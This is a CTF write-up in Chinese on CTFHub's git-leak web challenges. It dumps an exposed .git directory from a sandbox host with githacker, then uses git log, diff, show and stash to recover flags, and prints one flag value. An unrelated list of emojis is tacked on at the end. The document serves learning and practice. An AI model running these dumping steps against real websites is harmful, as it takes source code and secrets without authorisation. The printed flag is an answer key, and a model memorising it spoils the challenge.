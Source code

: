 ## CTFHUB-web-git泄露

---

### 1 Log

先用`githacker` 把.git文件拉下来

```bash
githacker --url http://challenge-f2a2e4e0e1912483.sandbox.ctfhub.com:10800/.git/ --output back-future
```

然后进入`.git`文件，

```bash
git log
#查看记录
```

![image-20240924160706039](https://gitee.com/bx33661/image/raw/master/path/image-20240924160706039.png)

#### git diff

```bash
git diff ce4b24abb8699e275d928c15fc95186236a49680 fb0d383fa9877e3255aa2e208ee664abdb4d7171
```

![image-20240924160922804](https://gitee.com/bx33661/image/raw/master/path/image-20240924160922804.png)

获得flag

#### git show

```bash
git show fb0d383fa9877e3255aa2e208ee664abdb4d7171
```

![image-20240924161818869](https://gitee.com/bx33661/image/raw/master/path/image-20240924161818869.png)



### Stash

> `git stash` 是 Git 中用于临时保存当前工作目录和暂存区中的修改的命令。当你需要切换分支或处理其他任务，但又不希望提交当前的修改时，可以使用 `git stash` 将这些修改保存起来，稍后再恢复。

跟上一题一样用githacker把.git文件拉下来

`git log` `git show`没有发现什么

根据题目信息

```bash
git stash list
git stash pop
cat 11543488920599.txt
```

![image-20240924163746012](https://gitee.com/bx33661/image/raw/master/path/image-20240924163746012.png)

```bash
PS E:\gitproject\GitHacker\back-future\f91beca0696b446706904365538e0294> cat 11543488920599.txt
ctfhub{aec3255d4e30b3d99e9f9ddf}
```



### Index

这个貌似拉下来就可以拿到flag



1. 😊 - 微笑
2. 😂 - 大笑
3. 😍 - 心形眼
4. 🤔 - 思考
5. 🚀 - 火箭
6. 🌟 - 星星
7. 🎉 - 庆祝
8. 🐱 - 猫
9. 🍕 - 披萨
10. 🌈 - 彩虹